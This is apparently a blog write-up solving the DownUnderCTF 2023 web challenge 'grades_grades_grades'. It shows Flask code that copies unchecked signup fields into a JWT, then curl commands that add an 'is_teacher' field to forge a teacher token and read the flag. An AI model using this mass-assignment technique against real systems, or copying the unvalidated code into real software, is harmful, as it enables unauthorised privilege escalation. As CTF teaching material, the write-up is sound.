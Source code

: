 ```yaml
---
title: DownUnderCTF 2023 - grades_grades_grades
date: Sun Sep  3 12:28:35 PM +04 2023
categories: [Writeup]
tags: [ctf,downunderctf,downunderctf2023,web]
---
```


## Description

Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

Application: [https://web-grades-grades-grades-c4627b227382.2023.ductf.dev](https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/)<br>
Downloads: [grades_grades_grades.tar.gz](https://play.duc.tf/files/119a75b4dffb65cc95258ced3e917ee0/grades_grades_grades.tar.gz?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo3OX0.ZPQ8vg.50gUr8qITMPd-xMcQkEJ6bkgIoc)

##  Analysis

Looking into source code to get the flag we need to be 1. Authorized and 2. Teacher.

```py
@api.route('/grades_flag', methods=('GET',))
@requires_teacher
def flag():
    return render_template('flag.html', flag="FAKE{real_flag_is_on_the_server}", is_auth=True, is_teacher_role=True)
```

Signup:
```py
@api.route('/signup', methods=('POST', 'GET'))
def signup():

    # make sure user isn't authenticated
    if is_teacher_role():
        return render_template('public.html', is_auth=True, is_teacher_role=True)
    elif is_authenticated():
        return render_template('public.html', is_auth=True)

    # get form data
    if request.method == 'POST':
        jwt_data = request.form.to_dict()
        jwt_cookie = current_app.auth.create_token(jwt_data)
        if is_teacher_role():
            response = make_response(redirect(url_for('api.index', is_auth=True, is_teacher_role=True)))
        else:
            response = make_response(redirect(url_for('api.index', is_auth=True)))
        
        response.set_cookie('auth_token', jwt_cookie, httponly=True)
        return response

    return render_template('signup.html')
```

Authentication is pretty simple. Get data from form, create token and authenticate. Source code shows that if `is_teacher` is set in JWT token we are considered teacher. <br>
Signup already is vulnerable, because of `jwt_data = request.form.to_dict()`. There's no sanitization or field validation.

![grades_grades_grades-1](/assets/images/ductf/2023/grades_grades_grades-1.png)

## Solution

Let's replicate the API call, but add extra field `is_teacher`.
1.  `-D -` to dump headers (Post and Head request can't be sent at the same time with cUrl).
2.  `-X POST` make a post request.
3. `-d "stu_num=test&stu_email=test%40test.test&password=test&is_teacher=NoDoubt"`
	* Post data
	* Extra field: `is_teacher=NoDoubt` (Can be anything because code is checking that field exists)
4. Server URL

```bash
└─$ curl \
    -D - \
    -X POST \
    -d "stu_num=test&stu_email=test%40test.test&password=test&is_teacher=NoDoubt" \
    'https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup'
HTTP/2 302 
content-type: text/html; charset=utf-8
date: Sun, 03 Sep 2023 08:14:15 GMT
location: /?is_auth=True
server: Werkzeug/2.3.7 Python/3.8.18
set-cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoidGVzdCIsInN0dV9lbWFpbCI6InRlc3RAdGVzdC50ZXN0IiwicGFzc3dvcmQiOiJ0ZXN0IiwiaXNfdGVhY2hlciI6Ik5vRG91YnQifQ.Uzw8QVGgp0LjhszDn2ERzdRqEASBdZ3vx-bxVj8vcMk; HttpOnly; Path=/
content-length: 215

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/?is_auth=True">/?is_auth=True</a>. If not, click the link.                                 
```

Make a request to `grades_flag` with `auth_token` of "Teacher".

```bash
└─$ curl \
    -b 'auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoidGVzdCIsInN0dV9lbWFpbCI6InRlc3RAdGVzdC50ZXN0IiwicGFzc3dvcmQiOiJ0ZXN0IiwiaXNfdGVhY2hlciI6Ik5vRG91YnQifQ.Uzw8QVGgp0LjhszDn2ERzdRqEASBdZ3vx-bxVj8vcMk' \
    https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/grades_flag \
    -s | 
    grep DUCTF
                    <td>DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}</td>                
```

> Flag: DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}
{: .prompt-tip }

## Note

If you don't prefer using cUrl and want more UI you can use BurpSuite. <br>
Go to singup -> intercept -> add `is_teacher` to request -> Login -> go to `GRADING TOOL` page -> Profit.